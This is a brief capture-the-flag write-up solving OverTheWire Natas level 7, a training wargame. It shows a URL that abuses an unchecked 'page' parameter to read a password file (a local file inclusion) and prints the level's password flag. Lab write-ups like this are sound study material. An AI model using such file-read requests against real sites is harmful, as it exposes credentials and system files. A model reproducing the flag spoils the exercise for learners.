 ```yaml
---
layout: default
title: natas7
---
```


# Natas Level 7 Solution

here we can see it prints the content of the file that the param `page` gets. so, let's give him the path to the password which is `/etc/natas_webpass/natas8`
```
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```

**Flag:** ***`xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q`*** 